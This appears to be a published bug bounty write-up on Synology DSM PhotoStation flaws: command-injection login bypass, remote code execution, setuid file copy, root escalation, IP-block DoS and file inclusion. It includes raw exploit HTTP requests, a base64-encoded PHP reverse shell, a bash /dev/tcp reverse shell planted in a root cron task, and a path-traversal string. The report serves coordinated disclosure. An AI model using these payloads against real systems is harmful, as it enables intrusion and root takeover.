 title: '[Synology Bug Bounty 2016]'
author: BambooFox
tags:
  - web
  - 'Synology Bug Bounty '
  - bug bounty
  - DoS
  - LFI
  - command injection
categories:
  - write-ups
  - bug-bounty-report
date: 2017-03-20 07:28:00
---
Synology Bug Bounty Report
=============

> Author: BambooFox Team 
> ( Henry, jpeanut, ding, leepupu, Angelboy, boik, adr, Mango King, Bletchley )

Last year ( 2016 ) , we BambooFox were invited to join the Synology Bug Bounty program. After about 2 months of hacking, we discovered several vulnerabilities, including a **remote root code execution** vulnerability. Synology engineers response and fix the vulnerabilities in a very short time, which shows they pay a lot of attention to security issues.

And now ( in 2017 ) , we are allowed to publish the vulnerabilities:  
* [Vul-01 PhotoStation Login without password](#Vul-01-PhotoStation-Login-without-password )
* [Vul-02 PhotoStation Remote Code Execution](#Vul-02-PhotoStation-Remote-Code-Execution)
* [Vul-03 Read-Write Arbitrary Files](#Vul-03-Read-Write-Arbitrary-Files)
* [Vul-04 Privilege Escalation](#Vul-04-Privilege-Escalation)
* [Vul-05 DoS via Blocking IP](#Vul-05-DoS-via-Blocking-IP)
* [Vul-06 Local File Inclusion](#Vul-06-Local-File-Inclusion)

## Vul-01: PhotoStation Login without password
---
We mostly focus on **PhotoStation**, which is the picture management system enabled in most Synology DSM ( DiskStation Manager ).

The first vulnerability allowed us to **login as admin without entering the password.**

PoC1:
```
GET //photo/login.php?usr=admin&sid=xxx&SynoToken=/bin/true HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept:    text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: |
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

The key points are the `|` character in the `X-Forwarded-For` field and `/bin/true` in the get parameter `SynoToken`. The server site CGI will concatenate the strings in `usr`, `X-Forwarded-For` and `SynoToken` into a command and execute the command, and the special characters `|` and `>` aren't filtered out correctly, which will lead to the **command injection** vulnerability. 

Therefore in our PoC1, the command will become:
```
/usr/syno/bin/synophoto_dsm_user username | /bin/true
```

The command will return 0 (True) and thus bypass the authentication.

**Result:
Adversary can login as admin without password**

![Login without password](http://i.imgur.com/pnIWZ6t.png)

Adversary can also login as admin by the following PoC:

```
GET /photo/photo_login.php
action=login&username=admin&password=%26
```

The source code that handle the user authentication are in `photo_login.php`:

```php
$retval = csSYNOPhotoMisc::ExecCmd('/usr/syno/bin/synophoto_dsm_user', array('--auth', $user, $pass), false, $result);
```

Once the `$pass` variable is `&`, the command will be executed in the background and always return 0 (true), thus the adversary can login as admin.


## Vul-02: PhotoStation Remote Code Execution
---
After we successfully login as admin via the command injection vulnerability, we extended the attack surface to attempt remote code execution.

PoC2: 
1 . Encode the command into base64 format
```
base64encode( $sock=fsockopen("......",8080);exec("/bin/sh -i <&3 >&3 2>&3"); )
=> JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA+JjMgMj4mMyIpOw==
```

2 . Send the payload
```
GET //photo/login.php?usr=|&sid=php&SynoToken=eval%28base64_decode%28%22JHNvY2s9ZnNvY2tvcGVuKCIzNi4yMzEuNjguMjE1Iiw4MDgwKTtleGVjKCIvYmluL3NoIC1pIDwmMyA%2bJjMgMj4mMyIpOw%3D%3D%22%29%29%3B HTTP/1.1
Host: bamboofox.hopto.org
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:47.0) Gecko/20100101 Firefox/47.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,/;q=0.8
Accept-Language: zh-TW,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
X-Forwarded-For: -r
Cookie: stay_login=0; language=en; PHPSESSID=ime6mqrg0pghbjo4p9aomqcbv0; left-panel-visibility=show
Connection: close
```

We adopted a similar approach (PoC1) in order to achieve RCE.

We then took a deep look into the source code of PhotoStation, and found the following code:
```php
if ($x_forward) {
    $ip = $x_forward;
}
// ...
$retval = csSYNOPhotoMisc::ExecCmd('/usr/syno/bin/synophoto_dsm_user', array('--current', $user, $session_id, $ip, $synotoken), false, $isValidUser);

if ($retval === 0) {
    $login_status = true;
} else {
    // login failed
}
```

In this code snippet, `$user`, `$ip` and `$synotoken` can be easily controlled by crafting the HTTP headers, and that's the original cause of the command injection vulnerability.  
Our first few attempts failed due to the site filtered out some special characters. However, we noticed that the site did not filtered out all the special characters. Here's the code that indicated the non-filtered characters:
```php
static $skipEscape = array('>', '<', '|', '&');
```

As a result of the code above, `>`, `<`, `|` and `&` can be used to achieve command injection.

![Remote Code Execution](http://i.imgur.com/qJxpKq8.png)

## Vul-03: Read-Write Arbitrary Files
---
After we got the shell, we continued to find security flaws in the DSM. The binary program `synophoto_dsm_user` got our attention. This binary is a **setuid program**, and has a powerful copy function.  
With the `--copy root` parameter, it will do the `cp` command and **copy a file with the root permission**. This make us have the ability to read/write an arbitrary file .

## Vul-04: Privilege Escalation
---
With the previous Vul-02 ( RCE ) and Vul-03 ( Read-Write Arbitrary Files ), we can exploit the vulnerability and **escalate our privilege to root**. We first tried modify the `/etc/crontab` file, but failed due to the [AppArmor](https://en.wikipedia.org/wiki/AppArmor) protection. So we change our target to the file that will be invoked by crontab. Finally we found `/tmp/synoschedtask`, a task which will be invoked by crontab as root. We use `synophoto_dsm_user` to modify its file content to the following command:
```
/volume1/photo/bash -c '/volume1/photo/bash -i >& /dev/tcp/x.x.x.x/yyyyy 0>&1'
```

Now we can wait for our reverse shell, with the root permission.
![Remote Code Execution](http://i.imgur.com/5YrQU54.jpg)


Also by exploiting Vul-02 and Vul-03, we're able to login the service as admin. If the admin is logged in, we can use the following command to get the admin's session ID:

```
usr/syno/bin/synophoto_dsm_user --copy root /usr/syno/etc/private/session/current.users /volume1/photo/current.users
```

Although the server side will check the admin's IP address, but the check can be bypassed easily by forging the `X-Forwarded-For` header.

**Login as admin give us the ability to execute command with the root permission**. For example, we can execute our own command as root with the help of **Task Scheduler**. This result in a privilege escalation as well.


## Vul-05: DoS via Blocking IP
---
We also found some other security flaws.
If a user sends too many requests to `forget_passwd.cgi`, the user will be blocked by his IP, which is retrieved from the `X-Forwarded-For` header.
However, `X-Forwarded-For` can be easily forged from the client side, therefore an attacker can block as many users as he wants by forging the `X-Forwarded-For` header, leading a DoS attack.
![Block IP](http://i.imgur.com/aU9IDWm.png)

## Vul-06: Local File Inclusion
---
There's a LFI (Local File Inclusion) vulnerability in `download.php`. The `id` parameter is controllable.  
For example, we can use `../../../../../../var/services/homes/[username]/.gitconfig` to download a user's git config file.

![Local File Inclusion](http://i.imgur.com/ZpL5Tw7.png)  



## Timeline
* 2016/07/25 Report vulnerabilities to Synology
* 2016/09/01 Confirm that all vulnerabilities have already been fixed by Synology
* 2017/03/13 Confirm that we're allowed to publish the bug bounty report
* 2017/03/20 Synology Bug Bounty Report published


## Note
Some of the vulnerabilities have already been discovered by Lucas Leong from Trend Micro ( [link](http://seclists.org/oss-sec/2016/q1/236) )